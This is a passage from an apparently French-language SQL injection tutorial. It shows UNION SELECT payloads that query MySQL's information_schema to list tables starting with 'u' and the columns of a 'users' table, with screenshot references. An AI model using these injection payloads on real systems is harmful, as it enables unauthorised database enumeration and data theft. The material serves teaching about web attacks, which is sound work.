 
Pour chercher une table avec un nom particulier, on peut filtrer comme ceci :  

`1 UNION Select null, table_name from information_schema.tables where table_name like 'u%' #`  

![11-injection-select-schema-table-where-u](../images/2020/07/11-injection-select-schema-table-where-u.png)

### 5. Faire la liste des champs des tables

Pour faire la liste des tables, il suffit de faire une requête dans le schéma d'information (ceci est pour MySQL) :  

`1 UNION Select table_name, column_name from information_schema.columns where table_name = 'users' #`  
